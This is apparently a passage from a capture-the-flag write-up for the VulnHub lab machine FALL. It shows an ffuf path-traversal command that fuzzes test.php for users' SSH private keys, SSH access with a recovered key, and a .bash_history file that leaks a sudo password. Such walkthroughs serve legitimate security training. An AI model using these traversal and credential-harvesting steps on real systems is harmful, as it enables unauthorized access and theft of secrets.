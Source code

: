 3. Fuzz for user's `id_rsa`
	```
	┌──(root💀kali)-[~/vulnHub/Digitalworld.local-FALL/192.168.110.20/exploit]
	└─# ffuf -u http://$ip/test.php?file=../../../../../../home/FUZZ/.ssh/id_rsa -w usernames.txt

			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : GET
	 :: URL              : http://192.168.110.20/test.php?file=../../../../../../home/FUZZ/.ssh/id_rsa
	 :: Wordlist         : FUZZ: usernames.txt
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	________________________________________________

	qiu                     [Status: 200, Size: 1831, Words: 7, Lines: 28]
	:: Progress: [1/1] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
	```
4. Change permissions of `id_rsa`
	```
	┌──(root💀kali)-[~/vulnHub/Digitalworld.local-FALL/192.168.110.20/exploit]
	└─# chmod 600 id_rsa 
	```

## TCP/22 (SSH)
1. SSH w/ qiu's `id_rsa`
![](Pasted%20image%2020220208200210.png)
2. Local Flag
	```
	[qiu@FALL ~]$ cat local.txt 
	A low privilege shell! :-)
	[qiu@FALL ~]$ 
	```

# Privilege Escalation

## Root - Via Creds Found
1. View files in qiu's home directory
2. View `.bash_history`
	```
	[qiu@FALL ~]$ cat .bash_history 
	ls -al
	cat .bash_history 
	rm .bash_history
	echo "remarkablyawesomE" | sudo -S dnf update
	ifconfig
	ping www.google.com
	ps -aux
	ps -ef | grep apache
	env
	env > env.txt
	rm env.txt